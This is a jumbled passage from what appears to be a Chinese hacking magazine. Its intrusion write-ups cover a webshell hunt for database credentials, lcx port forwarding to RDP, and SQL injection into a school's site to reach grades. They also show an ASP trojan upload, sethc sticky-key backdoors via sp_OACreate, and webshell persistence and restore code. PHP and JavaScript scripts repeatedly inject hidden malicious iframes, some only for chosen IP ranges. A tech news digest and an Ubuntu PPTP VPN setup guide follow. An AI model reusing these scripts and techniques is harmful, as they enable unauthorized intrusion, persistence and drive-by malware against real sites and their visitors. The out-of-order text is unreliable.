在这里同时还发现，服务器上有 100 多个站点，不知道哪一个或哪一些才是连接至 MSSQL 数据库服务器的。不过恰好该 webshell 提供了文件内容搜索功能，来搜索一下，关键词就设为 “user id=sa; password” 吧，这样可以直接搜索出来用 sa 连接数据库的网站配置文件。


一支烟的工夫，搜索完毕，果然被我找到了一个，也是唯一一个 sa，密码不为空，不过也不复杂，于是直接用 webshell 中的 “database” 功能连接，成功了，如图7。


与此同时也用 nmap 扫描了一下这台数据库服务器的端口情况，结果与 webshell 所在服务器完全相同，目前的环境很有意思：


- 目标服务器有 webshell，但是无法执行系统命令；
- 数据库服务器权限为 sa，可以直接添加管理员，但需要用工具进行端口映射或数据转发；
- 两台服务器都有一个用户名为 jimmy 的管理员。

到这里几乎可以想到这 2 台服务器就是同一个管理员在管理，可是……如果……对啊！如果数据库服务器上也有网站呢？反查了一下数据库服务器 IP 所绑定的域名，结果居然有 230 多个站点，随便抓一个，找了个动态页面定义报错，呵呵，这样就得到了它的 web 路径，OK！这下就写个一句话进去吧，如图8。

通过一句话再次上传一个 aspxspy，这样我们就可以对数据库服务器上传任意工具了。在上传 lcx 后直接端口映射，结果如图9。

先别着急连接，看看映射成功没有，毕竟执行 lcx 的用户是 network service，结果如图10。

看来成功了，那么连接看看，结果如图11。居然还是无法连接，看来硬防的规则很严格，既然不让我进，那看看你的数据能不能出来呢？结果如图12。

非常理想，先干掉这个 lcx 进程再重新建立，结束 lcx.exe 进程的结果如图13。


开始进行终端连接后刚收发几个数据包就自动断开，我再次尝试依然如此。推断是权限的问题，刚才已经说了执行 lcx.exe 的用户为 network service，如今看来确实有些问题。不过这种小障碍怎么难得到我们呢，就用第一个 webshell 通过 sa 权限来执行吧，如图15。


这回终于成功连上，如图16。


读取出管理员的密码 hash 后直接用 Ophcrack 进行破解，很快便破解了出来。接着就是在数据库服务器上直接用 jimmy 登录目标服务器的 3389，结果分别如图17、图18。

好了，使用 lcx.exe 再次建立一个连接，这回是数据库转发（我本机本身就连接有 VPN，所以具有一个公网 IP），可是结果却出乎所料，如图14。

最后把我在服务器上所做过的操作一一还原，基本恢复至我进入前的状态后 logoff。

> **编辑点评：** 作者在操作过程中遇到一些挫折，通过分析和思考，最终迂回达到目标，可以起到一个很好的示例作用。

# 用搜索型注入点实现了第一次链间入侵

本文写的是搜索型注入的一次入侵流程。

以前入侵都是打开扫描器，专挑网上的那些“软柿子”捏。但是这次入侵不同，由于学校教务处的服务器只对内网开放，为了查成绩，我想到了攻下一台学校对外开放的服务器，以此做跳板来访问教务处的服务器。第一次定向入侵真不容易！废话不多说，开始入侵之旅。

由于学校的服务器都是 Windows 2003，外加上防火墙，所以也没抱着能溢出或是扫描弱口令的希望。因此只能在网页上转一转，看看能不能在 80 端口有突破。

来到学校主页，开始找注入点。学校的主页和新闻是在一个服务器上，用的是 ASP，这些网页没有找到注入点。又来到党委管理的新闻网，是 PHP 的，这个咱不懂，跳过。最后来到了关于研究生教育的网站，找到了搜索型注入点，如图1。

具体的利用方法是，在搜索框里输入“关键字%' and 1=1 and '%'='”（输入的就是“%”内的内容，关键字就为“教育”吧），点搜索，结果返回与教育有关的资料。

让我们来看看搜索漏洞是怎样产生的。由于程序编写者忽略了对放入搜索框内内容的过滤，经过 `keyword=trim(request.Form("keyword"))` 把提交的内容赋给了变量 keyword，然后又直接带入了查询语句 `sql="select * from b_class where b_name like '%"&keyword&"%' order by id desc"` 进行查询。

当我们输入教育%' and 1=2 and '%'=' 时，却返回空的资料，这又是为什么呢？其实是这样的，在我们输入教育%' and 1=1 and '%'=' 后，在 Like 后的语句就变成了 `'%教育%' and 1=1 and '%'='%'`，转成逻辑运算符就为真 and 真 and 真，那么它的结果也为真，当然返回我们要搜索的资料了。反之，运算的结果为假，自然就什么也搜索不到了。

不过，我们还要来学习一下 SQL 数据查询中 WHERE 子句使用 Like 操作符的知识。Like 操作符所起的作用就是模糊查询，要使用 Like 进行模糊查询必须要配合通配符才能完成，“%”就是 Like 操作符中的一种通配符，它代表零个或多个任意字符。为了大家理解，给大家举一些例子：

- Like '服务器%'：返回以服务器开始的任意字符
- Like '%服务器'：返回以服务器结尾的任意字符
- Like '%服务器%'：返回包含服务器的任意字符

如果大家要找系统源代码中有没有搜索型注入的漏洞，首先要看系统中有没有这个文件，其实只要找一找网页页面上有没有提供查询就可以了。之后还要查看这个页面的代码，看看表单在进行提交的时候，是把数据 post 给了哪个页面进行处理，即找一下 action 所指向的文件，看哪个才是实现搜索功能的文件，我们就可以查看源代码，并找出是否有注入的漏洞存在。

当然我们还可以在搜索框中输入关键字' and '1%'='1 和关键字' and '1%'='2 来看是不是返回不同的页面，以此来判断该漏洞的存在。

其实最简单的方法还是把这个搜索型注入点放到 HDSI 中跑一下，结果如图2。没想到居然是 SA 权限，并且后台的用户名和密码也出来了。于是直接转到了高级命令添加用户，但是命令不成功，应该是扩展被删。

掉了（后来发现确实是这个样子）。但是遍历目录能用，看了看网站的硬盘结构，也没发现什么有用的信息，如图3。最后还是用猜解的方法获得后台的用户名和密码，如图4。


然后打开啊D注入工具，猜解后台登录地址，不一会就出来了，如图5。


登录后台，结果在附件上传的地方发现如图6的信息，所以就老老实实地去别的地方看看了（这就是教训，后文有介绍）。

后台也没什么好利用的，所以就陷入了困境。仔细想了想，想到了 GETWEBSHELL 那个软件，它可以完成差异备份，获得 WEBSHELL。

好，就用它，但结果虽然是差异备份出来了一句话木马，却一直没法用客户端连接，如图7。于是又上百度查了查，看还有没有其它的办法，试了几种，还是不行。


我在这个地方被卡住了3天，这个时候是真的没有办法了，入侵在此陷入困境。每天都是东转西转，头脑里还在不停地想着。后来发现有一个地方有很大的疏漏，就是在后台没有自己亲自试一下上传功能。

于是屁颠屁颠地再次回到后台的附件上传页面，选了一个 ASP 木马上传，汗……居然成功上传，如图8！有没有搞错啊，图6中的那两句话是唬人的。教训，教训啊！以后无论是什么，一定都要亲自试一试才行啊！


```bash
lcx --listen 51 3389
lcx --slave 我的IP 51 服务器IP 3389
```

拿到马后提权应该好办了，结果用 ASP 木马看了看，常有的提权都不好使，没有安装 FTP，没有安装 PcAnywhere，可以说除了安装了卡巴、360、IIS、SQL，其它的几乎什么都没安装。用 ASP 写的 shell 功能也没法加用户，权限不够，晕倒！

唯一值得安慰的是开了 3389，但是有防火墙，也没法连接。这时想到了 lcx.exe，用它把 3389 端口转出来，然后登录，进行一下社工试试，说不定直接就可以搞定。

```http
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONID...; ASPSESSIONID...
```

于是把 lcx 上传上去，在本地执行 `lcx --listen 51 3389`，在服务器上执行 `lcx --slave 我的IP 51 服务器IP 3389`，但是提示出错，看来是权限不够。

难道这条路也走不通？突然想起来，服务器是 Windows 2003，操作系统应该是 IIS 6.0，也就是说也许有 ASPX，于是上传了一个 ASPX 木马，看了看权限，ASPNET 这个账户是 USER 权限，看来这次是没问题了。

再次执行 `lcx --slave 我的IP 51 服务器IP 3389`，端口映射成功。用 3389 连接器连接本地 3389，成功登录上去了，如图9，但是冷水又来了，试了半天都没进去，没辙了。

# 入侵之后

## —— shell 的隐藏

这期的高手好像是专门教大家做坏事的！不过仔细一想，好像每期都是教大家做坏事，而且技巧越来越坏，越来越猖狂！还好我们的重点是在技术上。有了入侵技术，大家当然也就知道怎么防范了。所谓：道高一尺，魔高一丈，一尺高的道能压制住一丈高的魔，大家也不必太担心，呵呵。

通过本文可以学到 shell 的隐藏。

在检测网站成功放入 shell 后，我们通常都要加固一下 shell，即便是通过软件自动扫描获得的，也要保护我们的劳动成果。今天，我们就来总结下保护 shell 的方法。

当我们放马成功，首先要扫描一下该网站上是否还有别的木马。因为在你入侵之前，别人也有可能早已进入。这种扫描功能，普通的木马一般都带有，当找到可疑的木马文件时就可以删除（当然你也可以选择其他操作，比如挂马），如图1。删除之后，我们把这个网站的漏洞补上，防止有人再次利用漏洞进入。

然后把木马的名字改得具有迷惑性，如在 config 文件夹里建立一个名为 NewsConfig.asp 的木马，这样，不懂 ASP 的管理员就很难发现了。


一般不会发现，即使懂的，也不一定怀疑到这个文件上。

另外，也可以在其他更隐秘的文件里加入一句话木马，如果木马被杀了，就用这个后门进入。这几乎成为大众方法了，应该已经被各大杀毒软件盯上了，因此并不建议这样做，只是提供一种方法而已。

我们还可以修改上传文件，让上传文件也认识我们。当我们提交特定的字符串时，如图2中的代码，它会对此前缀我们开门并不做任何验证。这个方法很灵，杀毒软件对此往往视而不见，管理员很难发现。

```asp
if ((filelx<>"swf") and (filelx<>"jpg") and request(...)) then
response.write "<script language=javascript>alert('该文件类型不能上传');history.go(-1);</script>"
response.end
end if
```

如果上面的几种方法都不行，我们可以在已入侵服务器数据库的隐秘地方插入一段我们的代码，然后在一个文件中加入一段如下所示的还原代码，如果我们访问并提交正确的密码，就会自动还原木马文件。

```asp
if request("Pass")="MyPass" then
Set HuanYuan=CreateObject("adodb.recordset")
Hy="select line from table where string='code' and order by id desc"
HuanYuan.open Hy,conn,1,1
Set WF=CreateObject("adodb.Stream")
WF.Open
WF.Type=2
WF.CharSet="gb2312"
WF.WriteText Hy.code
WF.SaveToFile server.mappath("shell.asp"),2
WF.Close
Set WF=nothing
Set HuanYuan=nothing
End if
```

当我们访问这个页面并提交“MyPass”时，就会自动还原我们的木马。木马是保存在数据库中的，扫描软件不会去扫描。而还原代码中只是多了一个查询函数和写入文件的操作语句，并不会被杀毒软件青睐，这样我们的木马就可以保存得更长久。

> **编辑点评：** 图2的代码还不错，不过要文章中的利用代码起作用，必须要先更改对方的数据库，或自己上传一个数据库，数据库里还要保存木马代码，这样一来显得有点烦琐。我们可以利用 access 直接导出 webshell，类似的 SQL 代码是 `SELECT '<%eval(request(chr(35)))%>' into [test.txt] in 'd:\web\text;' from admin;`。以前用这样的代码导出 ASP 后缀文件需要改注册表，但是在 IIS 下我们导出 x.asp、x.txt 也是可以的。

紧接着就是赶紧做映射，连接 3389，出现登录界面后，连按 5 次 Shift，成功了，打开了 explorer，如图14。然后当然是毫不犹豫地打开 c:\windows\system32\cmd.exe，执行用户操作，如图15，然后就是登录了，如图16。

对于这次入侵的总结，首先是不要被一些事项给迷惑，就像在后台上传文件的地方，完全可以试一试，而不是选择听话地离开，这是很错误的。某次，粘滞键作后门的作用真的很大，也可以作为一种 webshell 提权的方法吧。然后，做事要有耐心和恒心，不要中途放弃。最后，祝大家每天能有个好心情，文章中如有错误请指出，邮箱 ety001@163.com。


接下来的一个星期出去旅游，散了散心，回来登录 ASP 木马，结果发现找不到，看来是被管理员发现了。于是赶忙看看漏洞补了没，很好，洞没补，所以继续用之前的方法，但是上传的时候出现了如图10的信息。

看来是管理员把原来的目录写权限关了。郁闷啊！但是紧接着想到了上传漏洞，于是赶紧抓 Cookie，如图11，紧接着用老兵的上传工具成功上传了木马，如图12。

显然恢复了，但还是没有进展。在友情链接中，从网上看到了一篇帖子，它为我提供了思路，如图13。虽然不是很懂，但是抱着试试看的心态放到 ASP 马的 SQL 执行器里去执行，居然成功了。

> 编辑点评：文章中有一点错误，图13当中的说法是普通用户也可以用 sp_OACreate 这个存储过程是不对的，应当是只有 sysadmin 固定服务器角色的成员才能执行 sp_OACreate。不过如果给普通用户访问 master 库的权限的话，倒是可以用。

```sql
declare @o int exec sp_oacreate 'scripting.filesystemobject', @o out exec sp_oamethod @o, 'copyfile', null, 'c:\windows\explorer.exe', 'c:\windows\system32\sethc.exe'

declare @oo int exec sp_oacreate 'scripting.filesystemobject', @oo out exec sp_oamethod @oo, 'copyfile', null, 'c:\windows\system32\sethc.exe', 'c:\windows\system32\dllcache\sethc.exe'
```

| 文件服务器名 | 特征码 | 备注 |
|---|---|---|
| system2.asp | VSet=u.Shell 相关标识 | 文件路径/文件名信息 |
| 路径比：C:\... | Execute | 其它说明 |

图1

图2

# 自动挂马的小方法

通过本文了解自动挂马的小技巧。

搞了一个站，想挂个马看看能否进入公司内网去，等了几个小时，没有一个人中马！我觉得不太对劲，登录我的 webshell 一看，挂马代码没了！那好，我再挂吧。这次挂好之后留心了，过了约有十分钟，再刷新对方网页页面，网马代码又没有了，郁闷 ing...

该站是 linux+php 的组合，说是防篡改的嘛，又不像，因为我的 webshell 一直都在，而且管理员又一直不在线。估计有一个恢复系统，每隔几分钟就恢复一次，或是类似静态生成的页面，每次一生成首页，我的挂马代码就没了。

其实可以改对方的数据库或是 php 文件来挂马的，可是我的牛劲上来了，你不是不停地恢复首页吗？那我就不停地给你挂上去，这样每几分钟就打开我的 webshell 再编辑首页。

手工如此操作可真把我搞累了，写个程序吧，得发挥自己的优势项目啊，哈哈。style.php 代码如下：

```php
<?php
// 这整个功能代码是执行一次挂网马，再刷新一次摘网马
$file="/opt/www/index.html";
$f=fopen($file,"r+");
$content=fread($f,filesize($file));
$input2="<iframe src=http://www.放马的站.com/ind.htm width=22 height=0></iframe>";
$rep=str_replace($input2,"",$content);
if(strstr($content,$input2)){
    fputs(fopen($file,"w+"),$rep); //如果有网马代码就去掉，当时是为摘掉网马代码，随便写的
} else {
    fputs(fopen($file,"a+"),$input2); //如果没有有网马代码就挂上去
}
?>
```

把代码传到对方站上，只要挂马代码没掉了就执行这个 php 一次。哈哈，这下好了，再还是不爽，要人工干预，那我再写一个客户端的脚本吧。x.html 代码如下：

```html
<HTML>
<HEAD>
</HEAD>
<BODY>
<SCRIPT LANGUAGE="JScript">
function singOut() {
    var O = document.createElement("iframe");
    O.src="http://www.目标站.com/bbs/style.php"; // 这个 style.php 就是上边的代码
    O.width=100;
    O.height=100;
    document.body.appendChild(O);
}
window.setInterval("singOut()",1200000); // 这里是 20 分钟一次
</SCRIPT>
</BODY>
</HTML>
```

把 style.php 文件传上去，然后在本机访问 x.html 就可以了。这样，对方如果十分钟左右恢复，我 20 分钟后再挂上去，然后程序就自动解决了，很省事。而且我不想挂了的话，查看首页还有网马代码，就执行一次 style.php 摘下网马。本文只是个小技巧，博大家一笑。

[文章涉及的相关工具及代码：style.php 和 x.]

# 一些入侵中你不得不考虑到的
# 与 IP 地址有关的问题

通过本文可以了解三种与 IP 相关的问题。

# 第一我想讲的是指定 IP 段挂马的问题

首先需要声明，本人对挂马并不感兴趣，只是对 PHP 编程感兴趣而已，因为之前在“黑手”上看过一篇对指定 IP 段挂马的文章，而且用的是 ASP 写的，所以我想用 PHP 来写一段脚本实现相同的效果，毕竟现在入侵 PHP 类的网站比较流行。

下面先给出示例代码：

```php
<?php
$ipstart='99.99.1.1'; // 定义起始 IP 地址
$array_ip=explode('.', $ipstart); // 用 explode 函数把 ip 地址分割为一个数组，可通过数组下标来获取每段的值。当然也可以用 split 函数结合正则表达式完成，但用 explode 足够了。

$ipend='99.99.255.255'; // 定义末段 IP 地址
$array_ip_end=explode('.', $ipend);

$array_ip_ts=explode('.', $_SERVER['REMOTE_ADDR']); // 获取访问者的 IP 地址
// $array_ip_ts=explode('.', '99.99.1.200'); 这句是用来本机测试用的，实际应用时修改为上面的语句。

// 用 if 语句分别判断四段的数值大小，并分别给变量赋值表示认证通过。
if(intval($array_ip[0]) <= intval($array_ip_ts[0]) && intval($array_ip_ts[0]) <= intval($array_ip_end[0]))
{
    $authenticate1=1;
}
if(intval($array_ip[1]) <= intval($array_ip_ts[1]) && intval($array_ip_ts[1]) <= intval($array_ip_end[1]))
{
    $authenticate2=1;
}
if(intval($array_ip[2]) <= intval($array_ip_ts[2]) && intval($array_ip_ts[2]) <= intval($array_ip_end[2]))
{
    $authenticate3=1;
}
if(intval($array_ip[3]) <= intval($array_ip_ts[3]) && intval($array_ip_ts[3]) <= intval($array_ip_end[3]))
{
    $authenticate4=1;
}

// 当四段认证成功后，输出挂马语句。
if($authenticate1 && $authenticate2 && $authenticate3 && $authenticate4)
{
    echo "<iframe src='http://localhost/nono.html' width='0' height='0' frameborder='0'></iframe>";
    // echo "<script language='JavaScript' src='*.js'></script>";
}
?>
```

```php
// echo "<a style=css_expression(document.write('<iframe src='http://localhost/nono.html' width='0' height='0' frameborder='0'></iframe>'))>";
```

这段代码（已做了详细的注释）对于定点挂马是很有用的，特别是对于内网渗透。当你要入侵的机器在某个内网中，而这个内网所在的单位又有对外开放的 Web 服务器，你会想各种方法先拿下这台服务器（当然你也可以先拿下别的服务器，只要是你要渗透的内网用户经常访问的站点），而服务器大多时候又没有内网 IP，即使有，也不一定和你要入侵的机器在同一网段，所以这时候就得想到挂马。这家单位的员工可能会经常去访问他们公司的 web 站点，所以只要找到他们的公网 IP 进行挂马就可以了。

# 第二要谈的是 IP 限制登录的问题

同样使用上面给出的脚本代码，只要把挂马的语句改为 SQL 验证用户名密码的脚本代码，然后加个 else{exit();} 就可以了。

由于是 if 判断，反过来写也是可以的，比如这样写：
if(!isset($authenticate1) && !isset($authenticate2) && !isset($authenticate3) && !isset($authenticate4)) {exit();} else {SQL 验证用户名密码的脚本代码}。

这样，当我们成功破解管理员 md5 加密的密码并登录时，即使密码正确也无法登录，因为登录的脚本代码里可以把起始 IP 和结束 IP 参数设置为公司所在的公网出口 IP 地址，这样只有公司内的机器才可以登录，别的 IP 段是登录不上去的。

大家可以看到代码里有个变量，就是 $_SERVER['REMOTE_ADDR']，它是用来获取公网 IP 地址的。当然了，如果是拨号上网的话就变成本机 IP 了。

```php
$md5_pass=md5('nologin'. $U_password);
$sql = "insert into users(username,password) values('$U_name','$md5_pass')";

$U_password=md5('nologin'. trim($_POST['User_password']));
$sql = "SELECT * FROM users WHERE username='$U_name' and password='$U_password'";
```

我这里是简写的代码，在管理员的密码前面自动加上字符串“nologin”，我们破解成功后，密码前面是没加上 nologin 的，而在参数传递时，管理员的密码是没有字符串 nologin 的，我们自然就登录不上去了。当然，这个前缀可以变得复杂一点，这样可能我们自己都破解不了，而其实管理员的密码本来就不是根据。

扯远了，回到刚才的话题。如果登录脚本写得变态一点，比如当不符合指定的 IP 段就直接跳转网站首页，这样即使我们知道了它的后台地址也没有用。

> html 已收录在本期光盘

**编辑点评：**
LCX 老大的小技巧，高手中的战斗机！这个技巧的代码很通用，延伸性很强，大家可以开拓下思路，更希望见到更多的实用小技巧。

# 第三要谈的是 IP 屏蔽的问题

还是先给出代码再分析（完整代码将打包）：

## 煎首语

前不久传说中的 Win 7 终于出来了，虽说这次微软吸取了发布 Vista 时的教训，没有太过分的宣传，但还是引起了不小的风波。先是有爆料说 Windows 7 可能使用了 GPL 代码，然后被发现其核心中仍然含有“间谍”功能！更恶搞的是，安装 Win 7 居然会让你先卸载掉 iTunes 和 Google Toolbar，不过想想也不奇怪，Google 把 logo 向太空发射之后，微软不是也跟着把它的搜索服务 logo 发上去了吗？这俩都在太空打起来了，在地球上的一个工具条也就不算什么大事了。其实，微软不是被 Google 和互联网打败的，是被它自己打败的啊。


## 1、GPL 破坏者！QQ影音被加入到 FFmpeg 耻辱名单中

FFmpeg 是一个跨平台的视频和音频流方案，属于自由软件，采用 LGPL 或 GPL 许可证（依据你选择的组件）。近日，网友 roo_zhou 向 FFmpeg 举报，指出 QQ 影音的 credit 只给出了修改的 ffmpeg 源码下载，声称是 LGPL 许可证，但实际是修改过的 ffdshow，采用的是 GPL 许可证。另外，有用户下载了 QQ 软件，用 7z 解压之后发现，其安装程序内包含了大量的开源和私有解码器的 dll，如 libavcodec、libx264 等等。之后，QQ 影音被正式加入到 FFmpeg 耻辱名单之列。

> 风飘点评：前段时间暴风影音就够让人郁闷的了，如今 QQ 影音居然也……这种挂到榜上去丢人的事就不多做评论了，中国热门的播放器还有多少？只希望这种事以后会就此打住吧。

# 2、Hyper-V 靠边：思科、EMC、VMware 成立数据中心联盟

近日，思科、EMC 携手 VMware 宣布结成虚拟计算环境（Virtual Computing Environment）联盟，这是三大 IT 企业的首次共同协作。据称，该联盟旨在通过营造数据中心虚拟化和向私有云架构的转型，不断提高 IT 基础架构的灵活性，降低 IT、能源和空间成本，从而让客户能够快速地提高业务敏捷性。

私有云是一种虚拟的 IT 基础架构，专为一个机构安全地控制和独立地运行。在过去的一年里，思科、EMC 和 VMware 一直开展着密切的合作，而三方的共同愿景则是：企业 IT 基础架构的未来是私有云计算。

**风飘点评：** 之前我们关注虚拟化好长一段时间了，后来不是炙热度不够烈，而是因为一些资源线的“战争”被我们忽略了。微软并没有像预想的那样推广 Hyper-V，反而减轻了对其支持，而 XenServer 却宣布完全开源。看来，虚拟化市场正面临着一次大洗牌。

# 3、Firefox 3.7 起将更新界面，官方否认抄袭 Chrome

稍早曾经曝光的 Firefox 新界面设计样式已经被 Mozilla 批准，将会用在 Firefox 3.7 以及 4.0 的更新中。新界面隐藏了菜单栏，将停止按钮和刷新按钮合二为一。Mozilla 还可能会对书签功能进行革新，将现在的书签菜单和书签工具栏合并为一个小工具（Widget）。在 3.7 推出之后，接下来的 4.0 版本将会继续对界面进行修改，而且合并地址栏和搜索框，其他变化就是标签栏会像 Chrome 一样挪到顶部。

Mozilla 表示，自己没有抄袭 Chrome 或是其他浏览器，因为浏览器要解决的问题都很类似，因此出现设计上的撞车在所难免。Chrome、Firefox 和 Safari 都基于类似的开源引擎搭建，它们唯一需要比拼的地方就是界面和用户体验。Mozilla 表示，“好的值得借鉴的东西就应该为己所用，Firefox 已经有很多独创的成果应用在浏览器中。”

**风飘点评：** 之前我们也关注过火狐要换界面的消息，看来新的方案已经被证实了。不管怎么说，这种新的界面样式已经被证实的确很优秀，那我们就期待着吧。

# 4、1GHz CPU 的 Android 手机——HTC 传说中的 Dragon 即将登场

关于 Android 平台，之前曾经流传过 HTC 会推出 1GHz Snapdragon 处理器、屏幕分辨率 800×480 的 Android 王者 Dragon（不过后来 Acer 抢先了），并且有相关的操作界面流出，而现在又出现了 HTC Dragon 模糊不清的谍照，看来 Android 系统这段时间不平静呀，1G 之乱相信不远了，陆续有宏碁、HTC 以及 SE 诸强参战，不知道还有没有其他厂家也打算加入？（话说三星呢？出了不少 Android 系统，但好像还没看到采用 1GHz 的）

**风飘点评：** Android 面世刚好 1 年，却已经占据了手机市场 7% 的份额了，真是前途不可限量。平台的界限已经越来越模糊，我个人认为不久的将来，这个界限终究会消失。硬件逐渐升级，再搭配强悍的 Android 系统，我们拭目以待吧。

# 5、开源 Linux 摩托车！时速超 210 公里

avizen 公司上周末在拉斯维加斯为 2010 赛季的 TXGP 推出了一款极具水准的摩托赛车！这款车起名为：TTX02，其核心电子装置采用开源的 Linux 平台，最高时速可达到 210 公里/小时，是世界上赛车运行中首个采用 IP 连通装置的，其基于 USB 的系统总线可以让系统无限扩展其他应用，并可远程支持服务，可交换动能传动系统，采用多种赛车共用底盘，动能传动系统来自 2009 TXGP 马恩岛冠军。

**风飘点评：** 看到这车的第一眼就是酷！让我想起变形金刚来了。这比那些看上去有些“山寨”的 Linux 咖啡机和机器人要炫多了，show 张图片给大伙瞧瞧。

（部分消息来自：Linux 伊甸园）

# Ubuntu 上搭建 VPN 服务器

**从本文您可以学到：**

如何在 Ubuntu 上搭建 VPN 服务器

在 Ubuntu 上搭建 VPN 服务器的方法还是比较多的，但是 PPTP 是最简单的一种方式，而且由于 Windows/Mac 系统中都内建有相应的客户端，所以使用起来非常方便。今天我就以 PPTP 的方式来为大家做建立 VPN 服务的介绍。

## 一、搭建环境介绍

- Ubuntu 9.10
- 单网卡

如何查看网卡？

打开终端，然后输入 `ifconfig -a` 命令后回车，即可查看当前机器的网卡配置信息，如图 1。

从图中可以看到，我的以太网卡为 eth0，相关的 IP 地址在后面也有显示，如果你有多块网卡也会全部显示在这里。

## 二、搭建过程

### 1、安装及配置 PPTP

（1）在 Ubuntu 中建立 PPTP Server 需要软件包 pptpd，我们打开终端，然后用 apt-get 即可安装，其命令为：`sudo apt-get install pptpd`，如图 2。

使用安装命令之后 Ubuntu 会自动安装 PPTP 服务，接着会提示输入管理员用户密码，然后自动解决依赖关系。

（2）安装好 PPTP 之后，我们需要对 PPTP 的相关文件进行修改。首先编辑“/etc/pptpd.conf”，其目的是为了修改 IP 分配，其命令为：`sudo nano /etc/pptpd.conf`。

然后去掉文件最末端的 localip 和 remoteip 两个参数的注释符号“#”，并进行相应修改。这里，“localip”是 VPN 连通后服务器的 IP 地址，而“remoteip”则是客户端的可分配 IP 地址。

我们的原则就是只修改前面的 A 段、B 段数据，后面的就不修改了。大家可以看一下我修改好的配置，如图 3。

修改之后我们需要按“Ctrl+X”退出，然后输入“y”进行保存。

（3）接着需要编辑“/etc/ppp/pptpd-options”，其目的是为了客户端连接 VPN 服务器之后能正确解析 DNS 服务器。命令为：`sudo nano /etc/ppp/pptpd-options`

这里我们只需要修改 MS-DNS 这个参数，同样也需要去掉前面的注释符号“#”，然后将后面的 IP 地址修改为你当地的 DNS 的 IP（武汉地区的 IP 是 202.103.24.68/202.103.44.150，其他地区请咨询网络服务商即可），如图 4。

修改之后我们需要按“Ctrl+X”退出，然后输入“y”进行保存。

（4）然后编辑“/etc/ppp/chap-secrets”，其目的就是为了添加自己的 VPN 账户名和密码等信息，其命令为：`sudo nano /etc/ppp/chap-secrets`

这里我们要做的就是参照文件中的注释重新写一行，第一列是用户名，第二列是服务名（默认为 pptpd 即可，如果在“pptpd-options”文件中更改过的话，就要保持一致），第三列是密码，第四列是 IP 限制（不做限制写 * 即可）。

这里我以用户名为“pop”，服务名为“pptpd”，密码为“nohack”，IP 不做限制为例，设置后如图 5。

修改之后我们需要按“Ctrl+X”退出，然后输入“y”进行保存。

这样搞定后我们需要重启 pptpd 服务使新配置生效，其命令为：`sudo /etc/init.d/pptpd restart`。这时我们就可以找一台电脑建立 VPN 连接了，其 IP 地址就是本机的 IP 地址，账户密码就是我们在“/etc/ppp/chap-secrets”文件中设置的。要是你的配置都正确的话，就可以正常连接了。


### 2、开启网络访问权限

建立连接之后，你会发现除了可以访问服务器的资源，其余内网和互联网的内容均无法访问。如果需要访问网络的话就需要开启“ipv4 forward”，其命令为：`sudo nano /etc/sysctl.conf`，然后找到“net.ipv4.ip_forward=1”这行，将前面的注释符号“#”去掉，如图 6。

修改之后我们需要按“Ctrl+X”退出，然后输入“y”进行保存。为了让新的配置生效，还必须输入命令：`sudo sysctl -p`。

一般来说，开启“ipv4 forward”就可以上网了，如果还是不行，请大家接着往下看，我们需要进一步设置。

### 3、开启 NAT

如果我们开启“ipv4 forward”之后还是不能上网，就需要建立一个 NAT，这里我们便使用“iptables”来建立 NAT 的规则。

首先是安装“iptables”，其命令为：`sudo apt-get install iptables`；装好后需要在 NAT 表中加入一条规则，其命令为：`sudo iptables -t nat -A POSTROUTING -s 10.10.0.0/24 -o eth0 -j MASQUERADE`

需要注意的是命令中的 IP 地址，要与之前“/etc/pptpd.conf”中的 C 段一致，还有就是网卡的编号也要一致。

这样操作后，客户端机器应该就可以上网了。如果在重启 Ubuntu 之后发现网络连接时断时续，可以按照如下操作进行。

首先需要执行下面的两条命令：

```bash
sudo iptables-save > iptables.up.rules
sudo cp iptables.up.rules /etc/
```

然后还需要编辑一下“/etc/network/interfaces”文件，命令为“sudo nano /etc/network/interfaces”，然后再在里面加入“pre-up iptables-restore < /etc/iptables.up.rules”这样一行，如图 7。

修改之后我们需要按“Ctrl+X”退出，然后输入“y”进行保存。到此，Ubuntu 的 VPN Server 就可以说架设成功了。


## 三、问题总结

- 1. 能打开 Google.com，但其他网站均无法打开；SSH 可用，但 SCP 不行；FTP 能握手，但传不了文件。

问题分析：

仔细分析后发现原来是 MTU 的问题，那么我们就可以通过上面安装过的“iptables”来修正这一问题。


> **小知识：如何检测网关的 MTU？**
>
> 在本机打开 DOS 窗口，执行：`ping -f -l 1472 192.168.1.1`，其中 `192.168.1.1` 是网关 IP 地址，`1472` 是数据包的长度。
>
> 请注意，上面的参数是“`-l`”（小写的 l），而不是“`-1`”。如果能 ping 通，表示数据包不需要拆包，可以通过网关发送出去。如果出现“Packet needs to be fragmented but DF set.”的提示，表示数据包需要拆开来发送。此时，减少数据包长度（如将 1472 变成 1300），再执行上面的 ping 命令，直到 ping 通为止。

解决办法：

```bash
sudo iptables -A FORWARD -s 10.10.0.0/24 -p tcp -m tcp --tcp-flags SYN,RST SYN -j TCPMSS --set-mss 1300
```

上面规则中的 1300 可以根据你的实际情况进行修改，为了保证最好的网络性能，这个值应该不断修改，直至能保证网络正常使用情况下的最大值。输入这条命令后，我们需要重新保存一下，跟之前 iptables 的保存方法一样，执行下面的两条命令：

```bash
sudo iptables-save > iptables.up.rules
sudo cp iptables.up.rules /etc/
```

**2、安装好 pptpd 并设置后，如果客户端还是无法建立到服务器的连接，那么造成的原因可能有以下几种：**

- 服务器端的防火墙设置：PPTP 服务需要使用 1723(tcp) 端口和 gre 协议，因此请确保您的防火墙设置允许这两者通行。
- 如果服务器在路由器的内网环境，请确保在路由器上做好相应的设置和端口转发。
- 如果服务器、客户端都在路由器的环境下，那么还要确保你的服务器支持“VPN Passthrough”。

## 四、总结

综合 Windows 和 Ubuntu 下建立 VPN 的区别，感觉虽然 Windows 是图形界面的操作，但是过程也不简单，如果你不对命令行产生厌倦，Ubuntu 的建立方式其实很简单，需要修改的很少。

**编辑点评：** 从稳定性、易用性等各方面综合考虑，小编个人认为 Ubuntu 下建立 VPN 服务是目前最好的选择。不过很多朋友搭建好之后却发现根本连接不上，那就得仔细检查一下你的防火墙吧。

# 利用 IPFilter 对 Solaris 进行安全加固

图 黄超波 / demonalex

**从本文您可以学到：**

如何在不中断服务的情况下配置 IPFilter

无论是在金融行业还是通信行业，Sun 公司的 Solaris 操作系统一直都是高端应用的代名词，其支撑的应用大多为企业核心应用，因此业务连续性要求是显而易见的。如何能在不中断业务的前提下对 Solaris 系统进行加固呢？这是大部分高端系统管理员都必须面对的难题。

